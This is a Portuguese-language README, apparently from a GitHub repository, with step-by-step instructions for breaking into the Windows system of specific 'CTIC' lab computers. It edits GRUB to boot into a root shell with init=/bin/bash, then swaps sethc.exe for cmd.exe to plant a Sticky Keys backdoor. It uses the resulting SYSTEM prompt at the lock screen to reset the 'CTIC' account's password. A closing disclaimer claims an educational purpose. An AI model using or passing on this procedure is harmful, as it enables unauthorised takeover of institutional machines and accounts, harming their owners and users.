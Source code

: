 # Acesso ao CTIC Windows - Requisitos: PCs com Windows e Linux

## Técnicas Utilizadas: Reinicialização com Parâmetros Especiais, Sticky Keys Backdoor

Este documento descreve os passos necessários para acessar o sistema operacional Windows do CTIC utilizando uma combinação de técnicas, como a reinicialização com parâmetros especiais e a exploração da vulnerabilidade conhecida como "Sticky Keys Backdoor".

### Passo 1: Desligamento Completo dos Processos do Windows

Para garantir que todos os processos do Windows sejam desligados completamente:

1. Ao desligar o Windows, segure a tecla "SHIFT" enquanto seleciona a opção de desligar. Isso garante o desligamento completo dos processos.

### Passo 2: Acesso ao GRUB do Linux Ubuntu

1. Após o desligamento completo do Windows, inicie o computador.
2. Na tela de seleção de Sistema Operacional (Windows ou Linux Ubuntu), selecione o Linux Ubuntu, mas não entre no sistema.
3. Pressione a tecla "e" para editar as configurações do GRUB.
4. Localize a linha que começa com "linux" ou "linuxefi" e vá até o final dela.
5. Adicione o parâmetro `init=/bin/bash` ao final da linha.
6. Pressione "Ctrl+X" ou "F10" para iniciar o sistema com as alterações.

Este passo apenas do GRUB pode ser necessário executar duas vezes.

### Passo 3: Sticky Keys Backdoor

1. Após entrar no terminal bash, execute os seguintes comandos:

   ```bash
   fdisk -l # Para listar as partições e identificar a partição do Windows (provavelmente sob "Microsoft data")
   mkdir /mnt/windows # Criar uma pasta para montar a partição do Windows
   mount {caminho_da_partição_windows} /mnt/windows # Substitua {caminho_da_partição_windows} pelo caminho correto
   cd /mnt/windows/Windows/System32 # Acessar o diretório do sistema Windows
   mv sethc.exe sethc1.exe # Renomear arquivos para criação da backdoor
   mv cmd.exe sethc.exe
   ```

2. Reinicie o sistema Windows.

### Passo 4: Alteração da Senha Local do Usuário CTIC

1. Após reiniciar e acessar o Windows:
2. Se estiver logado como usuário "IFSC", pressione as teclas `Windows + L` para bloquear a tela.
3. Pressione a tecla SHIFT cinco vezes para acionar um prompt de comando com privilégios de administrador.
4. Execute o comando:

   ```bash
   control userpasswords2
   ```

5. Na janela de configuração de contas de usuário, acesse a aba "Avançado" e clique no botão correspondente.
6. Selecione o usuário "CTIC" e clique em "Mais ações" e, em seguida, "Redefinir senha". Ou clique com o botão direito no usuário "CTIC" e selecione "Redefinir senha".
7. Insira a nova senha desejada.
8. Faça login com a nova senha no usuário "CTIC".


**Aviso Importante: Responsabilidade pelo Uso das Instruções**

As instruções fornecidas neste documento são fornecidas apenas para fins educacionais e informativos. Qualquer utilização destas instruções é de total responsabilidade do usuário. Não me responsabilizo por quaisquer danos, perdas, alterações indesejadas ou consequências resultantes da aplicação destas instruções em qualquer computador ou sistema operacional.

Ao prosseguir com a execução dessas etapas, você reconhece e concorda que está ciente dos riscos envolvidos na realização de ações que podem afetar o funcionamento normal de um sistema. Recomenda-se que você possua autorização adequada e conhecimento técnico para realizar essas ações, e que você siga todas as leis, regulamentos e políticas de segurança aplicáveis.

Lembre-se de que explorar vulnerabilidades ou realizar modificações não autorizadas em sistemas pode ter implicações legais graves. Certifique-se de obter permissão adequada e de agir de acordo com os regulamentos e diretrizes antes de executar qualquer procedimento mencionado neste documento.
